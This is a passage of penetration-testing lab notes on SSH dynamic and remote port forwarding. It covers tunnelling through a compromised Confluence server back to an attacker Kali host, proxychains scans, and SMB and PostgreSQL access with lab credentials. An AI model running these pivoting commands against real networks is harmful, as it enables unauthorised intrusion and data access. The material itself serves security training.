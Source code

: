 ```Shell
smbclient -p 4455 //192.168.231.63/scripts -U hr_admin --password=Welcome1234
```

### 18.3.2. SSH Dynamic Port Forwarding
#### Make the shell interactive
```Shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
#### Open an SSH dynamic port forward on port 9999
```Shell
ssh -N -D 0.0.0.0:9999 database_admin@10.4.203.215
```
#### Set up proxychains to go through the pivot server's IP address on port 9999 in `/etc/proxychains4.conf`
```
socks5 192.168.50.63   9999
```
#### Use proxychains with smbclient to connect to HRSHARES through the SOCKS proxy
```Shell
proxychains smbclient -L //172.16.203.217/ -U hr_admin --password=Welcome1234
```
#### Using Nmap over proxychains
```Shell
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```
### 18.3.3. SSH Remote Port Forwarding
#### Start the SSH server on the Kali machine
```Shell
sudo systemctl start ssh
```
#### Check that the SSH server on the Kali machine is running
```Shell
sudo ss -ntlpu
```

***In order to connect back to the Kali SSH server using a username and password you may have to explicity allow password-based authentication by setting PasswordAuthentication to yes in /etc/ssh/sshd_config.***
#### On Confluence server, connect to the Kali machine w/ an SSH remote port forward
```Shell
ssh -N -R 127.0.0.1:2345:10.4.209.215:5432 kali@192.168.45.155
```
#### Check if port 2345 is bound on the Kali SSH server
```Shell
ss -ntlpu
```
#### On kali, list databases on the PGDATABASE01 using psql through the SSH remote port forward
```Shell
psql -h 127.0.0.1 -p 2345 -U postgres
```
